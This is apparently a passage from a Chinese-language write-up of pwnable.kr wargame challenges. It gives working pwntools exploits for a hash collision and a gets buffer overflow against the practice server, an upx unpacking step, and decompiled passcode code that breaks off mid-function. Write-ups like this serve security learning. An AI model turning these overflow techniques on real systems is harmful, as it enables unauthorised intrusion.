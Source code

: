 ```
>>>hex(int(0x21DD09EC+1)/5)
'0x6c5cec9'
```

然后可以构造exp

### Exp

```python
#coding=utf-8
from pwn import *

payload=p32(0x6c5cec9)*4+p32(0x6c5cec8)

shell=ssh(host='pwnable.kr',user='col',password='guest',port=2222)
#shell.download_file('col.c')
sh = shell.run('./col'+' '+payload)
sh.interactive()
```

## 0x03 bof

最经典的gets溢出覆盖

在ida 里看参数a1和buf的差距，溢出覆盖就行了

```
#coding=utf-8
from pwn import *

io=remote("pwnable.kr",9000)
payload='a'*(0x2c+0x8)+p32(0xcafebabe)
io.sendline(payload)
io.interactive()
```

## 0x04 flag

直接下载下来用ida pro分析发现只有三个函数，而且还有一大堆shellcode在里面。。。。。

后来意识到可能加了壳，用

```
upx -d flag
```

脱壳后就可以正常ida pro逆向了

可以直接在里面找到flag

## 0x05 passcode

放到ida里分析

```cpp
  int v1; // [esp+18h] [ebp-10h]
  int v2; // [esp+1Ch] [ebp-Ch]

  printf("enter passcode1 : ");
  __isoc99_scanf("%d");
  fflush(stdin);
  printf("enter passcode2 : ");
  __isoc99_scanf("%d");
  puts("checking...");
  if ( v1 != 338150 || v2 != 13371337 )
  {
    puts("Login Failed!");
    exit(0);
```